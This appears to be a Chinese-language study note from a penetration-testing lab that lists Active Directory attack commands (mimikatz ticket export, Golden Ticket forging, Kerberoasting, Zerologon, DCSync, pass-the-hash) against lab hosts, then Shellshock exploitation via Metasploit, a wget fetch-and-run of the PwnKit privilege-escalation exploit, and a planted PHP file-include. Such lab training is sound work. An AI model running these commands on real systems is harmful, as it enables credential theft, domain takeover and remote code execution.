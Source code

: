 Day5
===
ADRecon
---
    AD由三個部分組成
    目錄分割區
    設定檔
    Schema資料庫結構
![image](https://github.com/user-attachments/assets/5f241d92-cbbd-4673-9652-2120ee57b018)
![image](https://github.com/user-attachments/assets/2a14572d-8f90-4533-835c-513a9945791e)

    蒐集AD資訊，下載ADRecon工具
[ADRecon工具](https://github.com/adrecon/ADRecon)
![image](https://github.com/user-attachments/assets/b3735d89-1269-4271-a994-8b2bb5b57117)

    執行powershell&ADRecon.ps1
    powershell.exe  -nop –ep bypass
    -nop:PowerShell 在啟動時不讀取任何配置文件，包括使用者配置文件。
    -ep: -ExecutionPolicy Bypass 的簡寫
    > in Domain
    ./adrecon.ps1
    > OR Not in Domain
    ./adrecon.ps1 -DomainController 192.168.177.19 –OutputType ALL -Credential lpt.com\cpent
    > OR
    ./adrecon.ps1 -DomainController 192.168.177.19 –OutputType HTML -Credential lpt.com\cpent
![image](https://github.com/user-attachments/assets/63813ab0-0e04-42ef-8f18-86b36605c65a)
![image](https://github.com/user-attachments/assets/12ddffa2-2bf4-4b03-871f-b53ef80c8687)

Export Kerberos Tickets
---
    使用mimikatz工具
    mimikatz
    privilege::debug
    sekurlsa::tickets /export
![image](https://github.com/user-attachments/assets/325d960d-dbe1-4dd5-8533-3b9b4fa6ccc9)
![image](https://github.com/user-attachments/assets/cf574c3d-244b-4dfa-a7aa-77905f6e0438)

Pass the Ticket
---
    取得DC TGT拿到另外一台機器匯入TGT，尚未匯入前無法訪問DC目錄
![image](https://github.com/user-attachments/assets/c244175e-bf04-4d54-a842-4f2171abf30e)
![image](https://github.com/user-attachments/assets/e83a042a-4223-4460-94ca-d4426c83289c)

    匯入TGT&確認票卷
![image](https://github.com/user-attachments/assets/4a8cfc5b-0cb2-4156-a80b-6cd23f8faf35)
![image](https://github.com/user-attachments/assets/57868c45-8eb9-4959-aa94-31a1371981d5)

    可瀏覽DC目錄
![image](https://github.com/user-attachments/assets/1495a602-6c57-4ff2-a1a8-67af5b4b1227)

Golden Ticket Attack
---
    /etc/hosts新增IP&域名
![image](https://github.com/user-attachments/assets/cd32ab86-fca6-447e-bda6-ede7ce144113)

    取得administrator的krbtgt的NTLM hash
    impacket-secretsdump 'administrator:Pa$$w0rd'@192.168.177.19    
![image](https://github.com/user-attachments/assets/164b2a01-4163-4cef-a8db-4f4b19f663a5)

    取得administrator的SID
    python3 /opt/impacket/examples/lookupsid.py 'administrator:Pa$$w0rd'@192.168.177.19 0
![image](https://github.com/user-attachments/assets/3ec80a6d-4cce-406a-84af-28f25dff7e05)

    簽一張TGT
    python3 /opt/impacket/examples/ticketer.py -nthash <ntlm_hash> -domain-sid <sid> -domain lpt.com evil
![image](https://github.com/user-attachments/assets/1e063263-9b10-4248-8545-09fb0828fe89)

    設定環境變數
    export KRB5CCNAME=~/evil.ccache
![image](https://github.com/user-attachments/assets/dd1603e6-c95a-48ae-8f2f-cfbf5f806cb8)

    執行RCE
    psexec.py lpt.com/evil@server2019.lpt.com -k -no-pass -dc-ip 192.168.177.19
![image](https://github.com/user-attachments/assets/afa4eab9-d9e7-4603-8c33-c7708c096562)

Kerberoasting
---
    Register service in AD
    setspn -s http/lpt.com user-one
![image](https://github.com/user-attachments/assets/fbca5919-1e5d-4a1f-9fff-c59e2e07dcd5)
  
    取得在DC上註冊的服務&密碼HASH
    GetUserSPNs.py 'lpt.com/cpent:Pa$$w0rd' -dc-ip 192.168.177.19 -request -outputfile kerberoast.txt
![image](https://github.com/user-attachments/assets/f4ca12aa-9f57-4d1d-a892-6f0576e95622)
![image](https://github.com/user-attachments/assets/eceb82db-8e93-47f4-a09f-5f5c7a76c27b)

    使用john破解user-one密碼
![image](https://github.com/user-attachments/assets/cad67771-346f-4b44-83af-8625d293407f)

Zerologon
---
    下載新版mimikatz
 [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20220919)
![image](https://github.com/user-attachments/assets/c1213384-fed5-4171-ad7b-a0fd068dc5ad)

    執行mimikatz並dump
    lsadump::Zerologon /target:192.168.177.19 /account:server2019$ /null /ntlm /exploit
    lsadump::postzerologon /target:192.168.177.19 /account:server2019$
![image](https://github.com/user-attachments/assets/07bd99c9-3e5b-417a-b4ce-33f5628990bd)
dcsync
---
    lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:administrator
    lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:krbtgt
![image](https://github.com/user-attachments/assets/bf3b892f-5ffd-4cff-a30c-fb63a3ff9ad6)

    目前連到不到DC目錄
![image](https://github.com/user-attachments/assets/a610b8aa-ff61-405c-92c0-cded3b11437a)

PtH
---
    privilege::debug
    sekurlsa::pth /user:Administrator /domain:server2019.lpt.com /ntlm:<HASH>
![image](https://github.com/user-attachments/assets/1c8478f2-e11e-45ed-803f-27cb5c239fd7)
![image](https://github.com/user-attachments/assets/b00c5da9-30d3-4d09-82f2-23fa015fb745)

PtT
---
    取得krbtgt的NTLM HASH&SID
    kerberos::golden /domain:lpt.com /sid:<SID> /krbtgt:<HASH> /user:evil /ptt
    misc::cmd
    klist add_bind lpt.com server2019.lpt.com 
    kerberos::golden /domain:lpt.com /sid:<SID> /krbtgt:<HASH> /user:evil /ticket:evil.tck
![image](https://github.com/user-attachments/assets/24f1ebad-a84c-4a3a-a530-a711c97a9dfe)

SHELLSHOCK
---
    Preparation on 192.168.0.24:
    cd /usr/lib/cgi-bin/
    sudo cp shellshock keygen
![image](https://github.com/user-attachments/assets/54fc6039-d50f-41fd-a041-3550317af3b4)

    Parrot:
    dirb http://192.168.0.24
    dirb http://192.168.0.24/cgi-bin
![image](https://github.com/user-attachments/assets/f204f99d-7037-4c23-a3ba-4f2a83d00deb)
![image](https://github.com/user-attachments/assets/c6e7b513-24e3-421d-9769-fbd7892ae987)

    msfconsole
    search shellshock
    use exploit/multi/http/apache_mod_cgi_bash_env_exec
    show options
    set RHOSTS 192.168.0.24
    set RPORT 80
    set TARGETURI /cgi-bin/keygen
    shell
    script /dev/null -qc /bin/bash
    利用PwnKit提權
    python3 -m http.server 8888
    wget http://192.168.0.18:8888/PwnKit32
    chmod +x PwnKit32
    ./PwnKit32
[PwnKit](https://github.com/ly4k/PwnKit)
![image](https://github.com/user-attachments/assets/9242b59d-f2a8-4ee5-95d7-43a14b314eaf)
![image](https://github.com/user-attachments/assets/f5aadc76-536d-4003-b29f-13dc4ea1b0a9)
![image](https://github.com/user-attachments/assets/e6b7dfcf-ba6c-4908-afab-b2f93be10dfb)


LFI to RCE
---
    ssh administrator@192.168.0.10
    toor
    echo '<?php phpinfo(); ?>' >> /var/www/html/info.php
    echo '<?php include($_GET["file"]); ?>' >> /var/www/html/inc.php
    # Parrot:
    http://192.168.0.10/inc.php?file=info.php
![image](https://github.com/user-attachments/assets/28387bd5-ca33-4eaf-8dcf-29e56f688407)


